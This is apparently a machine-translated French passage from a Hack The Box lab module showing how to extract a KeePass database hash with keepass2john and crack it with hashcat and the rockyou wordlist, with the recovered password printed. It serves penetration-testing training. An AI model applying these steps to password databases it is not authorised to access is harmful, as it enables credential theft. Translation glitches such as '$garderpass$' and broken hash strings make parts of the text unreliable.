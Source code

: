 #### Extraction du hachage KeePass

Tout d'abord, nous extrayons le hachage au format Hashcat à l'aide du script `keepass2john.py` .

Extraction du hachage KeePass

```
dsgsec@htb[/htb]$ python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx

ILFREIGHT_Help_Desk :$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c6302 * 63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154

```

#### Cracking Hash hors ligne

Nous pouvons ensuite transmettre le hachage à Hashcat, en spécifiant [hash mode](https://hashcat.net/wiki/doku.php?id=example_hashes) 13400 pour KeePass. En cas de succès, nous pouvons avoir accès à une multitude d'informations d'identification pouvant être utilisées pour accéder à d'autres applications/systèmes ou même à des périphériques réseau, des serveurs, des bases de données, etc., si nous pouvons accéder à une base de données de mots de passe utilisée par le personnel informatique.

Casser le hachagedoubler

```
dsgsec@htb[/htb]$ hashcat -m 13400 keepass_hash /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt

hashcat (v6.1.1) démarrage...

<SNIP>

Accès au cache du dictionnaire :
* Nom de fichier.. : /usr/share/wordlists/rockyou.txt
* Mots de passe. : 14344385
* Octets......: 139921507
* Espace clé.. : 14344385

$garderpass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465 cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1d ac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154:panthère1

Séance..........: hashcat
Statut........... : fissuré
Hash.Name........ : KeePass 1 (AES/Twofish) et KeePass 2 (AES)
Hash.Cible...... : $keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d...39c154
Heure.de.démarrage........: ven. 6 août 11:17:47 2021 (22 secs)
Heure.Estimée... : ven. 6 août 11:18:09 2021 (0 s)
Guess.Base....... : Fichier (/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Devine.Queue...... : 1/1 (100,00 %)
Vitesse.#1.........: 276 H/s (4.79ms) @ Accel:1024 Boucles:16 Thr:1 Vec:8
Récupéré........ : 1/1 (100,00 %) Résumés
Progression.........: 6144/14344385 (0.04%)
Rejeté......... : 0/6144 (0,00 %)
Point.de.restauration.... : 0/14344385 (0,00 %)
Restore.Sub.#1... : Sel : 0 Amplificateur : 0-1 Itération : 59984-60000
Candidats.#1....: 123456 -> iheartyou

Début : ven. 6 août 11:17:45 2021
Arrêté : ven. 6 août 11:18:11 2021

```
